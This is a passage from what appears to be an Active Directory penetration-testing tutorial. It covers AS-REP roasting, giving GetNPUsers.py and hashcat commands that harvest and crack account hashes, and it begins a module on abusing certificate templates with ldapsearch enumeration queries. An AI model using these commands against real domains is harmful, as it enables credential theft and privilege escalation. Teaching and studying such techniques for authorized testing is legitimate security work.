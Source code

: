 #### 3. AS-REP Roasting  

1. **Run GetNPUsers.py**  
   ```bash
   python3 GetNPUsers.py corp.local/ -no-pass -outputfile asrep.hash
   ```
   - **Expected Output**:  
     ```
     [+] svc_legacy@corp.local
     [+] Saved hash
     ```
2. **Crack with Hashcat**  
   ```bash
   hashcat -m 18200 asrep.hash /path/to/rockyou.txt
   ```
3. **Interpret**: Check group membership of cracked account.

### Common Pitfalls  
- Wrong hashcat mode.  
- SPNs on offline hosts.  
- AS-REP accounts with expired passwords.

### Next Steps  
- **Module 8**: AD Certificate Services Enumeration & Abuses  

---

## <a name="module-8"></a> Module 8: AD Certificate Services Enumeration & Abuses

### Introduction  
Abuse misconfigured certificate templates to request certificates granting high-privilege authentication (PKINIT, DC authentication).

### Definitions  
1. **AD CS (Active Directory Certificate Services)**: Microsoft PKI solution.  
2. **Certificate Template**: Defines certificate properties and enrollment rights.  
3. **Enrollment Rights**: “Enroll” or “AutoEnroll” permissions on a template.  
4. **ESC Classes**: Attack categories (ESC1–ESC13).  
5. **PKINIT**: Kerberos extension for certificate-based authentication.

### Why It Matters  
- Misconfigured templates allow issuance of high-priv certificates to low-priv users → escalate to DA via PKINIT.

### Tools & Commands  

#### LDAP Queries  
- Find CA servers:  
  ```bash
  ldapsearch -x -H ldap://DC01.corp.local -b "CN=Configuration,DC=corp,DC=local" "(objectCategory=pKIEnrollmentService)" dsServiceName,distinguishedName
  ```  
- List templates on CA:  
  ```bash
  ldapsearch -x -H ldap://DC01.corp.local -b "CN=CORP-CA,OU=CAs,CN=Enrollment Services,CN=Services,CN=Configuration,DC=corp,DC=local" certificateTemplates
  ```  
- Enumerate all certificate templates and ACLs:  
  ```bash
  ldapsearch -x -H ldap://DC01.corp.local -b "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=corp,DC=local" "(cn=*)" msPKI-EnrollmentFlag,securityDescriptor,msPKI-ExtendedKeyUsage,distinguishedName
  ```